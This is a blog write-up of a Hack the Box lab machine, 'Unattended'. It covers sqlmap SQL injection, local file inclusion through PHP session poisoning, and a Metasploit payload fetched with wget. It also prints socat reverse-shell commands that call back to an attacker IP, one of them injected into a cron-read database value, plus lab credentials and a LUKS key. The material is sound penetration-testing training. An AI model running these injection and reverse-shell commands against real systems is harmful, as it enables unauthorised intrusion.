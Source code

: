 +++
author = "Nick"
categories = ["CTF", "mysql", "SQL Injection", "LFI", "PHP", "Linux", "metasploit", "reverse shell", "socat", "grub", "LUKS"]
date = 2019-08-24T15:06:00Z
description = ""
draft = false
thumbnail = "/images/2019/08/info-3.png"
slug = "hack-the-box-unattended"
summary = "Today we'll be stepping through the box Unattended. This was an interesting machine, most likely due to my poor VPN stability. Anyway, lets get to it!"
tags = ["CTF", "mysql", "SQL Injection", "LFI", "PHP", "Linux", "metasploit", "reverse shell", "socat", "grub", "LUKS"]
title = "Hack the Box - Unattended"
url = "/hack-the-box-unattended"

+++


Today we'll be stepping through the box Unattended. This was an interesting machine, most likely due to my poor VPN stability. Anyway, lets get to it!

As alwasy, the first thing we do is our standard nmap scan: ```nmap -sC -sV -oA unattended 10.10.10.126```. We get a pretty normal output. We see that the scan leaks a host name of nestedflanders.htb. We'll add that to our hosts file: ```bash echo "10.10.10.126     nestedflanders.htb" >> /etc/hosts```. 

We will head over to the web interface on the box and see what's there. We are greated with an Apache2 install landing. Normally, we would run dirb or gobuster against the domain to enumerate it but this time, we'll run [Nikto](https://github.com/sullo/nikto). We issue a standard ```nikto -host https://nestedflanders.htb``` and wait for our results. Often Nikto is slow but fairly comprehensive.

We see that there are two index files. A index.html and an index.php. If we head over to index.php we are greated with the man himself!

![](/images/2019/08/image-27.png)

As we explore the site, we see what could be a SQLi.

![](/images/2019/08/image-28.png)

We'll boot up SQLmap and see what we can find. We need sqlmap the page id: ```sqlmap -u https://nestedflanders.htb/index.php?=587 --dbs --threads 10```. We let nmap run and see what it enumerates.

![](/images/2019/08/image-29.png)

We see a database called neddy, lets check the tables within. ```sqlmap -u https://www.nestedflanders.htb/index.php?id=587 -D neddy --tables --threads 10```

![](/images/2019/08/image-31.png)

We see there are some tables, but the tables 'filepath' sticks out, lets dump it. The reason that this one seems to be a first pick is because when it comes to filepaths and databases, we might be able to LFI our way in. We issue ```sqlmap -u https://www.nestedflanders.htb/index.php?id=587 -D neddy --T filepath --dump --threads 10```.

![](/images/2019/08/image-32.png" caption="Our three entries. These are the same links listed on the page as well. Hmm...)

We see that our table has three entries. These are also the same values on the index.php as well. While looking at this table, we can see if pathing to the value gets us to this path.

![](/images/2019/08/image-33.png)

We see that this does indeed send us to the same page. We can test for injection manually to read a the hosts file. After googling around t[his page](https://www.rcesecurity.com/2017/08/from-lfi-to-rce-via-php-sessions/) was a pretty great resource for this.

![](/images/2019/08/image-34.png" caption="This query results in the below.)

![](/images/2019/08/image-35.png" caption="We got an output!)

Now we are going to have to see if we can read the PHP Session file. We can do the same process as above but targeting our session file. That file is stored in /var/lib/php/sessions/sess_{ID}.

![](/images/2019/08/image-36.png)

![](/images/2019/08/image-37.png)

The goal here is to inject a reverse shell into this session file.  We can poc it by appending a small function at the end of our session value and reading it back

![](/images/2019/08/image-38.png" caption="Session poisoned.)

![](/images/2019/08/image-39.png" caption="Session called back with the same command above, but we see we have the whoami command output.)

Now that we know this will work, lets create a reverse shell. We'll do this with MSFPC so we can have a Meterpreter session. We will issue ```msfpc php``` and follow up our prompts.

![](/images/2019/08/image-40.png)

We will host a http server for our script. We will then inject the wget command to tell the system to download it from us.

![](/images/2019/08/image-41.png)

We see that the file was downloaded:

![](/images/2019/08/image-42.png)

Now we need to call the session via the LFI.

![](/images/2019/08/image-43.png)

And we see our Meterpreter session light up!

![](/images/2019/08/image-44.png)

We have a shell and we see there is only 1 users, guly. However, we are only www-data so we don't have rights to list her directory. We can look at all the items we have at our disposal. When we cat the index.php file we see some credentials:

![](/images/2019/08/image-45.png)

Awesome, we have some credentials. We continue our enumeration and see a file called check.pl in the /var/www directory. We download the file so we can see what it does. Seemingly executes items in 'checkrelease' when its called. We also know that the script is run every minute.

However, it doesn't seem that I can save anything in any normal place on the box. So lets see what the database looks like. ```echo "use neddy; select * from config"|mysql -u nestedflanders -p1036913cf7d38d4ea4f79b050f171e9fbf3f5e```

![](/images/2019/08/image-46.png)

This is interesting, so based on the perl script we saw that runs every minute, we can probably modify this value to reverse back to us. This machine doesn't have netcat on it, but we do have access to [socat](https://linux.die.net/man/1/socat).

We will start up a socat listener on our local machine ```socat file:`tty`,raw,echo=0 tcp-listen:80``` Then we'll tell our box to call home ```socat exec:'/bin/bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.197:80```

![](/images/2019/08/image-47.png" caption="Our socat has activated.)

Now lets see if we can access mysql in this shell. ```mysql -u nestedflanders -p1036913cf7d38d4ea4f79b050f171e9fbf3f5e```

![](/images/2019/08/image-48.png)

Lets updated ID 86 to call back to us again. ```UPDATE config SET option_value = "socat exec:'/bin/bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.197:443" where id = 86;```

This gives us a shell back as Guly, we have user.txt! When enum Guly's groups we see she is part of the grub group. We head to the boot directory and try to find some data here. We see that initrd.im-4.9.0-8-amd64 is owned by grub. We extract the image and see that it's encrypted. We can copy this to our local machine and simply sudo ./uninitrd c0m3s3f0ss34nt4n1. That gives us the key to unlock the drive and we have root!

Hopefully something was learned. If you found this write-up helpful, consider sending some respect my way: [Lovecore's HTB Profile](https://www.hackthebox.eu/home/users/profile/95635).

